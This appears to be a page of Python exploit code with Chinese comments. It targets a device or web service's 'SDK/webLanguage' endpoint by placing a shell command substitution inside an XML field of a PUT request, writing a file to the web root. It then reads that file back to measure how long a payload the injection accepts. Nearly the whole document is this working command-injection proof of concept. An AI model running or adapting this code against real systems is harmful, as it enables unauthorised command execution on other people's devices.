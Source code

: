 ```plain

def sendPayload(target, poc_data):
    # 设置要发送的数据
    data = '<?xml version="1.0" encoding="UTF-8"?><language>$(echo -n -e "' + poc_data + '" > webLib/payload.txt)</language>'
    url = urllib.parse.urljoin(target, 'SDK/webLanguage')

    # 发送请求
    response = requests.put(url, headers=headers, data=data)
    
    # 检查响应状态码等，确保请求成功
    if response.status_code == 500:
        return True
    return False


def getPayloadLength(target):
    url = urllib.parse.urljoin(target, 'payload.txt')
    response = requests.get(url, headers=headers)
    p_length = len(response.text)
    return p_length


def testPayloadLength(target):
    # 动态设置 Host 字段
    headers['Host'] = urllib.parse.urlparse(target).netloc

    # 测试数据包长度限制
    length = 4
    while True:
        chunk = 'A' * length
        result = sendPayload(target, chunk)
        p_length = getPayloadLength(target)

        if result and length > p_length:
            print(f"Payload length: {length - 4}")
            break
        length += 4

if len(sys.argv) < 2:
    print("Usage: python script.py <target_address>")
    sys.exit(1)

target = sys.argv[1]

testPayloadLength(target)
```

![图片](assets/1710993392-7e70048e14a6af5699f6c97ee84afb89.png)
